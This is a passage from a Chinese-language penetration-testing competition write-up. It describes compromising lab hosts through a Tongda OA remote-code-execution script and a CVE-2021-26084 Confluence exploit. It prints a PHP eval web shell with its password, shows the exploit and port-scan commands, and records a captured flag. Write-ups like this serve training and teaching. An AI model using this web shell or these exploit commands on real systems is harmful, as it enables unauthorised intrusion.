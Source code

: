 ```
<?php @eval($_POST[123]);?>
```

![image-20220528130342000000-1656056083088725.png](img/中小型企业环境网络安全渗透赛 local/86151df8dc40025a74d0bc9fd545f5e4.png)

中途需要按enter确认

```
python3 tongda-rce.py http://192.168.50.30/
```

![image-20220528130350000000-1656056084897682.png](img/中小型企业环境网络安全渗透赛 local/1e3f0311f52da5f4aab0233acde51463.png)

上传shell成功，蚁剑连接即可（密码：123）

![image-20220528130358000000-1656056086673385.png](img/中小型企业环境网络安全渗透赛 local/3c669afd900ea62d5328761d90d0058f.png)

![image-20220528130408000000-1656056088437674.png](img/中小型企业环境网络安全渗透赛 local/10da29901972384430917967612d1929.png)

OA主机的flag文件

位置：`c:\users\administrator\desktop\flag.txt`

因为蚁剑的虚拟终端执行命令后回显的第一个字符是0，查询到的flag回显把0去掉即可。

```
flag{67B1-65A9-D0AE-730A-EA62-EE51-E1FA-0F0C}
```



##### 任务6：wiki主机渗透（T1596-主动扫描、T1059-使用恶意命令和脚本）

对192.168.50.40进行端口扫描：

`C:\Users\Administrator\Desktop\工具\端口扫描`

```
s.exe tcp 192.168.50.40 1-65535
```

发现开放了8090端口

![image-20220530150612000000-1656056090429655.png](img/中小型企业环境网络安全渗透赛 local/2d83242c8ce10a19bd95edab98d86f37.png)

访问`http://192.168.50.40:8090`

![image-20220528130446000000-1656056092080238.png](img/中小型企业环境网络安全渗透赛 local/348ef18beae09a3d7e4aacefeea69054.png)

是confluence且版本是v7.11.3

工具压缩包位置：

`C:\Users\Administrator\Desktop\工具\tools\CVE-2021-26084_Confluence-main.zip`

解压后，进入工具目录执行如下命令：

```
python3 cve-2021-26084_confluence_rce.py -u http://192.168.50.40:8090 -c "whoami"
```

